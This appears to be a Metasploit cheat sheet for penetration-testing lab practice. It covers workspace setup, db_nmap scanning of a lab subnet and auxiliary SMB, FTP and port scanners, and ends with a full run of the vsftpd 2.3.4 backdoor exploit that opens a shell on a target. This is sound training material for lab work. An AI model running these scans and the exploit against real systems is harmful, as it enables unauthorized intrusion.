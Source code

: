 Start Metasploit and set up workspace/logging
```
msfconsole -q

# Keep findings separated per target
workspace -a lab01
workspace lab01

# Optional: log everything to a file
spool msf_lab01.log
```

Discover targets with db_nmap
```
# Adjust CIDR/subnet to your lab
db_nmap -sS -sV -O -Pn -T4 -p- 10.10.10.0/24

# Review results
hosts
services
services -c host,port,name,info -u
```

Set global variables (helps avoid repetition)
```
# Set your VPN/attack IP automatically (tun0 typical for eJPT VPNs)
setg LHOST `ip -4 addr show tun0 | awk '/inet/ {print $2}' | cut -d/ -f1`
setg VERBOSE true
```

Quick validation with auxiliary scanners
```
# SMB version enumeration
use auxiliary/scanner/smb/smb_version
set RHOSTS 10.10.10.10
run
back

# FTP anonymous check
use auxiliary/scanner/ftp/anonymous
set RHOSTS 10.10.10.10
run
back

# TCP port scan (Metasploit-side)
use auxiliary/scanner/portscan/tcp
set RHOSTS 10.10.10.10
set PORTS 1-1000
set THREADS 50
run
back
```

Exploit example (Linux: vsftpd 2.3.4 backdoor – Metasploitable2-style)
```
search type:exploit name:vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOSTS 10.10.10.11
set RPORT 21
# This module usually drops a shell automatically
run

# If you get a command shell
sessions
sessions -i 1
id; uname -a
```